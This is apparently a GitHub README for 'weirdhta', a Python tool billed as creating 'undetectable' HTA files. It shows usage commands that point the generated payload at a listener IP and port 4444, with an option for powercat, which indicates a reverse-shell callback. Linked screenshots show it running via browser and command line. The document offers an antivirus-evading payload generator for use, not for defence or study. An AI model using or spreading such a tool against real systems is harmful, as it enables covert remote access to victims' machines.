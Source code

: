# weirdhta
A Python-based basic tool for creating undetectable hta file.


```
python3 weirdhta.py 10.10.10.10 4444
or
python3 weirdhta.py 10.10.10.10 4444 --nc (for powercat)
```

### Screenshots
Running via browser:


![Script Image](https://i.imgur.com/mb8xvCq.png)

![Script Image](https://i.imgur.com/LCo3Ivb.png)

![Script Image](https://i.imgur.com/5DtxvKi.png)


Running via cli:

![](https://i.imgur.com/xYfALz2.gif)
